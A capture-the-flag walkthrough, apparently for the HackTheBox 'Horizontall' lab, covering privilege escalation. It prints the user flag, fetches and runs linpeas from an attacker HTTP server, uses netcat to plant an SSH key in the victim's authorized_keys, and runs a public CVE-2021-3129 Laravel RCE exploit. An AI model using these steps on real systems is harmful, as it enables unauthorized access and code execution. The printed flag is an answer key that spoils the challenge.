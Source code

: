 #User flag
```
3d6982b2cdb88c1e96aa678929ce1327
```

#Its time for Privilege escalation

###Lets upload linpeas on the server 

###To do this Start an python http server on your machine 
```
sudo python3 -m http.server 8080 
```
##We upload linpeas on the server by using the cmd
```
wget http://<IP>:8080/linpeas.sh
```

##Then by giving linpeas executable permissions
```
chmod +x linpeas.sh
./linpeas.sh
```

#linpeas tells us it is having Larvel v8(PHP v7.4.18) on port 8000, We have to port forward this to our machine and for this we have to generate a pair of ssh keys 
```
ssh-keygen
```
#After the key is generated turn on a netcat listner on your machine
```
nc -lnvp 3333 < /home/kali/.ssh/id_rsa.pub
```
##On the victim machine
```
nc -nv 10.10.14.157 3333 > authorized_keys
```
##Put your IP here

##Then the key will transfer into the /opt/strapi/.ssh/authorized_keys

#Once this is complete, you can access it by using
```
ssh -i ~/.ssh/id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb 
```
#Now we are strapi 
```
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

#Now its time to get the root flag by exploiting it by using exploit
```
https://github.com/nth347/CVE-2021-3129_exploit
```

##Usage of the exploit
```
$ git clone https://github.com/nth347/CVE-2021-3129_exploit.git
$ cd CVE-2021-3129_exploit
$ chmod +x exploit.py
$ ./exploit.py http://localhost:8000 Monolog/RCE1 id
```
